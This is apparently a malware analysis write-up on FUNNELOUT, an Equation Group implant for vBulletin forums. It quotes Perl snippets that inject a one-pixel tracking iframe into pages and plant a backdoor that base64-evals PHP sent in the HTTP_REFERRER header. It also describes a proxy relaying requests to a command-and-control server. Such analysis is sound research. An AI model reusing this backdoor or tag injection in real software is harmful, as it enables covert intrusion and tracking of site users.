

# FUNNELOUT

vBulletin implant. The code is able to add tags (in the form of an iframe and 1 pixel GIF tracker) to pages, a backdoor (remote eval via HTTP header content) and a proxy (send request to "proxy"/C&C and relay whatever it sends back to the client). The tag itself can be a proxy tag.

Tagging can be selective, FUNNELOUT uses a blacklist, a list of users to exclude and a list of users to include. By default all users are tracked, except for the ones hardcoded in the blacklist:

```
my $blackList = '84b8026b3f5e6dcfb29e82e0b0b0f386,e6d290a03b70cfa5d4451da444bdea39'; # unregistered (EN), dbedd120e3d3cce1 (AR)
```

This is the infamous [uncrackable hash of EQGRP](https://arstechnica.com/information-technology/2015/02/password-cracking-experts-decipher-elusive-equation-group-crypto-hashes/).

Tagging is basically just including [an iframe](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1047) in the webpage content. The URL contains the username of the user that is loading the page allowing for returning different content per user. [A local image crumb](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L924) can also be included in the page. This allows for easily finding the user in the Apache logs on the vBulletin server [Source](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L262).

The crumb and the iframe, `$htt` contains the full tag URL:

```
$crumbBuild = <<END;
''
END
}
....
return $crumbBuild . '<iframe src="' . \$htt . '" height="1" width="1" scrolling="' . \$scroll .'" frameborder="0" unselectable="yes" marginheight="0" marginwidth="0"></iframe>';
```

Tagging also doesn't always happen. When the vBulletin post ID is not explicitely mentioned, the tagging is kinda ["random"](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1023-L1028).

```
# this is the normal case. tag randomly every so often
else{ 
    $text4 = <<END;
if(\$td - \$rk[0] >= $tagTime) {
    \$rk[0] = \$td;
    \$rk[1] = rand(0, $tagInt);
    \$bd(\$key, serialize(\$rk), 1);
} 
```

If the backdoor is installed (in the footer template), then you can send executable PHP code in the [`HTTP_REFERRER` header](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L288) and it will be `eval()`ed. This allows for quick external access to the system.

```
my $codePrefix = '".@eval(base64_decode("';
my $codeSuffix = '"))."';
...
sub op_door {
    $code_door = $codePrefix . getBase64Encode('eval($_SERVER["HTTP_REFERRER"]); return "";') . $codeSuffix;
    
    print "Insert door\n";
    patch_db($code_door, $doorTemplate);
}

```

The proxy functionality will literally forward [the full request (body and everything)](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1120-L1151) towards the proxy and it will return to the user whatever [the proxy returns](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L1209) (like... a... proxy...).

Also check [Kaspersky EQGRP questions and answers](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf), FUNNELOUT is the code generator for the PHP code found on page 24.



([Source](https://cdn.securelist.com/files/2015/02/Equation_group_questions_and_answers.pdf))


In the code found by Kaspersky, the tag URL is `http://technology-revealed[.]com/expand/order.php?design=ABRSRgDQlkUALAxGANDrRuQQofe6Y0THS8E3hfBC+M+k7CdBmTH5gAkLvgV8EV3ULW+7KoUjbJ4UOFU6SVOtgEK7zTgPPNoDHz4vKecDGe7OzDmJlvwKvc5uYg/I/5x9&sn=" . bin2hex(substr($u,0,14));` Where `$u` is the username. We also find that the crumb string is empty (just before the iframe HTML code there's a concatenation with an empty string). 

The blacklist in the Kaspersky report only contains the two md5s that are default. Since the blacklist is build up with these default entries and then a whitelist of people not to follow and a blacklist of people to follow (see [here](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/up/funnelout.v4.1.0.1.pl#L833-L864)), we know that EQGRP was following/tagging every user.

